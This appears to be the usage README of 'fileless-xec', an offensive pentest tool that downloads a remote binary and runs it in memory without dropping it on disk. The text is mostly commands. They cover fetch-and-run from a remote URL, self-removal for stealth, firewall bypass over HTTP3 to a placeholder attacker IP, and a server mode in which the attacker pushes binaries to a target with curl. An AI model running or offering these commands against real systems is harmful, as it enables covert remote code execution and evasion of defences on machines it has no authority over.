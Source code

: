 # `fileless-xec` use cases and examples

* [`curl | sh` for binaries](#curl---sh--for-binaries)
* [Execute binary with stdout/stdin](#execute-binary-with-stdout-stdin)
* [Execute binary with arguments](#execute-binary-with-arguments)
* [`fileless-xec` self remove](#fileless-xec--self-remove)
* ["Remote go": execute go binaries without having go installed locally](#-remote-go---execute-go-binaries-without-having-go-installed-locally)
* [Bypass firewall with HTTP3](#bypass-firewall-with-http3)
* [Execute a shell script](#execute-a-shell-script)
* [`fileless-xec` server mode](#fileless-xec--server-mode)
* [`fileless-xec` on windows](#fileless-xec--on-windows)

## `curl | sh` for binaries

This is the basic use case for `fileless-xec`. It enables us to run a remote binary without dropping it on disk:
```shell
fileless-xec [binary_url]
```

## Execute binary with stdout/stdin

`fileless-xec` is able to execute binaries with stdout and stdin. There isn't any special configuration or flag to make it works

## Execute binary with arguments

You can also passed arguments to your binary:
```
fileless-xec [binary_url] -- [flags_and_values_for_the_binary]
```

## `fileless-xec` self remove

On linux, you could remove `fileless-xec`from disk during its execution. This a step further for stealthiness:
```
fileless-xec --self-remove [binary_url]
```

## "Remote go": execute go binaries without having go installed locally

### Pre-requisites

* Attacker machine: 
  * go installed
* Target machine:
  * `fileless-xec`


If you want to run some go code on machine where go is not installed and you don't want to install it:

* For stealthiness reason (in a pentest, the less we install the better)
* For idleness orquickness reason

You will build your go on attacker machine, and use `fileless-xec` to execute it on target machine.

Of course, this use case is applicable for every program language that provides toolchains to make binaries (ex C/C++)

## Bypass firewall with HTTP3

See [HTTP3 - README](https://github.com/ariary/fileless-xec#http3quic) for explanation about the benefit of HTTP3 (spoil: bypass fw):

On attacker machine, set up HTTP3 server:
```bash
./example/http3/genkey.sh
go build light-server.go
./light-server  # launch on port 6121
```

On target machine, tell that you want to use http3:
```
fileless-xec --http3 https://[attacker_ip]:6121/[binary_name]
```

## Execute a shell script

If you are tired of running binaries.. and you want to run shell. This is a workaround example.

1. Transform your script in go code: (delete line `#!/bin/bash` and avoid `"`)

```
go build ./example/shell/generate.go
./generate myscript.sh
```

2. Compile it:

 ```
 go build nestedscript.go
 ```

3. Classicaly execute it on target
```
fileless-xec  [binary_url]
```

## `fileless-xec` server mode

This feature provide  another type of interaction between target and attacker machine:
target machine would have a server (upload binaries server) and attacker machine will send the binary ( trough http, http3, ...) to the server. Once the binary file received the target machine execute it as usual.

We change the connection direction between the 2 machines. As bind shell/reverse shell, it is useful to have both possibilities to adapt to the different possible network permissions



On target Launch the server:
```
fileless-xec server [port]
```

On Attacker machine send the binary to be executed:
* with curl: `curl -X POST -F "executable=@[BINARY_FILENAME]" http://[TARGET_IP:PORT]/upload`
* using client provide in example: 
```
#change url and port in ./example/client/client.go to the target machine ones
go build ./example/client/client.go
./client [BINARY_FILENAME]`
```

## `fileless-xec` on windows

You could alse use `fileless-xec` on windows.
Build `filess-xec.exe` with Makefile:
```
make windows.build.fileless-xec
```

Usage is the same except that it is less stealth as binaries are on disk and you can't self remove `fileless-xec` while execution. Meanwhile the binary is immediatly deleted after execution
